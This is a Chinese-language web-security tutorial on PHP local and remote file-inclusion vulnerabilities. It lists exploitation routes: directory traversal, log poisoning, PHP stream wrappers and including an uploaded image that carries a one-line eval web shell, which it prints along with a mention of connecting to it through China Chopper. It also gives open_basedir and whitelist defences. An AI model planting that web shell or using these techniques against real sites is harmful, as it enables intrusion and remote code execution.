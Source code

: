 require一般是用于文件头包含类文件、数据库等等文件,include一般是用于包含html模版文件
include_once()、require_once()与(include\require)的功能相同,只是区别于当重复调用的时候，它只会调用一次。

### 文件包含利用方式（）

漏洞分类

本地文件包含：可以包含本地文件，在条件允许时甚至能执行代码

​    上传图片马，然后包含

​    读敏感文件，读PHP文件

​    包含日志文件GetShell

​    包含/proc/self/envion文件GetShell

​    包含data:或php://input等伪协议

​    若有phpinfo则可以包含临时文件

远程文件包含：可以直接执行任意代码

要保证php.ini中allow_url_fopen和allow_url_include要为On

**0x02、文件包含漏洞利用**

**1、****包含读出目标机上其它文件**       跨目录读取配置文件,包含日志

如果对取得的参数page没有过滤，于是我们可以任意指定目标主机上的其它敏感文件

利用../跳转目录的作用跨目录读取配置文件

在linux中，"."表示当前目录，“..”表示上一层目录，当../到根目录下，再往上层父目录仍旧是根目录。

用常见的“../”包含出日志文件。

这里需要一个常见目录的cheatsheet

**防止跨目录：**

**在php.ini中设置open_basedir**

> ```
> open_basedir = C:\Program Files\phpStudy\WWW\lfi #限制在当前目录下（包括子目录）
> ```
>
> ```
> open_basedir = C:\Program Files\phpStudy\WWW\lfi\ #限制在当前目录下（不包括子目录)
> ```



**2、包含可运行的PHP木马**

在很多地方，我们都可以上传图片，如上传头像，图片等，这这里先上传图片，图片的内容为一句话木马

```<?php @eval($_POST['cmd']);?>```

由于上传的限制，一般只能上传jpg，png的图片格式，代码无法执行，我们用本地包含的方式将图片包含进来，代码就执行了，代码不需要后缀名是php、asp的格式，只要内容是代码即可执行。

然后用中国菜刀连接（功夫再高，也怕菜刀！）

**防止本地文件包含：**
使用枚举

```php
$file =$_GET['test'];
switch ($file) {
	case 'lfi.txt':
		include('./lfi.txt');
		break;
	default:
		include('./notexists.txt');
		break;
```